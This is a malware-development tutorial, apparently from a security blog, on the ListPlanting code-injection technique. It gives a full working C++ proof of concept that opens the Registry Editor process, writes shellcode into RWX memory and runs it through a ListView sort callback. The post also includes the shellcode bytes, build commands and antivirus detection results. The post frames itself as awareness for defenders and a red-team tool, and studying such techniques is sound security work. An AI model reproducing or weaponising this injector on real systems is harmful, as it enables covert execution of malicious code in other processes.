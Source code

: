 \newpage
\subsection{37. malware development tricks. Listplanting. C++ example.}

﷽

Hello, cybersecurity enthusiasts and white hackers!

![injection](./images/81/2022-11-28_03-03.png){width="80%"}    

This post is the result of my own research into the malware dev trick: Listplanting.     

Using the `LVM_SORTGROUPS`, `LVM_INSERTGROUPSORTED`, and `LVM_SORTITEMS` messages, a `ListView` control's items and groups can have their sorting behavior modified to suit individual preferences. List-view controls are user interface windows that display groups of things. A `SysListView32` control stores information about an application's list-view settings in the process' memory.    

*ListPlanting* may be performed by copying code into the virtual address space of a process that uses a list-view control then using that code as a custom callback for sorting the listed items.    

### practical example

Let's go to look at a practical example. The trick is pretty simple:    

First of all, get windows handle:

```cpp
HWND wpw = FindWindow(NULL, (LPCSTR)"Registry Editor");
HWND hw = FindWindowEx(wpw, 0, (LPCSTR)"SysListView32", 0);
```

Then, get process ID, and open it (get process handle by `OpenProcess`):   

```cpp
GetWindowThreadProcessId(hw, &pid);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```

At the next step, we allocate RWX-memory via `VirtualAllocEx` and "copy" payload:     

```cpp
mem = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

// copy payload
WriteProcessMemory(ph, mem, my_payload, sizeof(my_payload), NULL);
```

Finally, trigger payload:    

```cpp
// trigger payload
PostMessage(hw, LVM_SORTITEMS, 0, (LPARAM)mem);
```

According to [documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-postmessagea), `PostMessage` - Places (posts) a message in the message queue associated with the thread that created the specified window and returns without waiting for the thread to process the message.      

The full source code of my PoC:      

```cpp
/*
hack.cpp
code injection Listplanting
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/11/27/malware-tricks-24.html
*/
#include <windows.h>
#include <commctrl.h>
#include <iostream>
#pragma comment (lib, "user32.lib")

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE ph;
  DWORD pid;
  LPVOID mem;

  // find window
  HWND wpw = FindWindow(NULL, (LPCSTR)"Registry Editor");
  HWND hw = FindWindowEx(wpw, 0, (LPCSTR)"SysListView32", 0);

  // obtain the process id and try to open process
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  // allocate RWX memory
  mem = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT,
   PAGE_EXECUTE_READWRITE);

  // copy payload
  WriteProcessMemory(ph, mem, my_payload, sizeof(my_payload), NULL);

  // trigger payload
  PostMessage(hw, LVM_SORTITEMS, 0, (LPARAM)mem);

  // free memory
  VirtualFreeEx(ph, mem, 0, MEM_DECOMMIT | MEM_RELEASE);
  CloseHandle(ph);

  return 0;
}
```

As you can see, as usually, for simplicity I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### demo

Let's go to see everything in action. Compile our "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![injection](./images/81/2022-11-28_03-25.png){width="80%"}    

Then, run Registry Editor in the victim machine (`Windows 10 x64` in my case):      

![injection](./images/81/2022-11-28_04-11.png){width="80%"}    

And, run our `hack.exe`:    

```powershell
.\hack.exe
```

![injection](./images/81/2022-11-28_04-13.png){width="80%"}    

![injection](./images/81/2022-11-28_04-13_1.png){width="80%"}    

Run as Administrator, because for injecting to Registry Editor (`regedit.exe`) requires elevated privileges.     

For correctness, run `Process Hacker 2` as Administrator and check *memory* tab:     

![injection](./images/81/2022-11-28_04-16.png){width="80%"}    

![injection](./images/81/2022-11-28_04-18.png){width="80%"}    

As you can see, everything is work perfectly :)    

Let's go to upload `hack.exe` to VirusTotal:    

![injection](./images/81/2022-11-28_04-21.png){width="80%"}    

**So, 19 of 71 AV engines detect our file as malicious.**    

[https://www.virustotal.com/gui/file/a1037630f95f721c6a7a1b6d8c278b4e926253b3888ac838d507af8c8baf8844/detection](https://www.virustotal.com/gui/file/a1037630f95f721c6a7a1b6d8c278b4e926253b3888ac838d507af8c8baf8844/detection)     

This technique is used in [InvisiMole](https://attack.mitre.org/software/S0260/). *InvisiMole* is a modular spyware software that the InvisiMole Group has been using since at least 2013.      

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[ATT&CK MITRE: ListPlanting](https://attack.mitre.org/techniques/T1055/015/)      
[InvisiMole](https://attack.mitre.org/software/S0260/)     
[PostMessage](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-postmessagea)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-11-27-malware-tricks-24)       
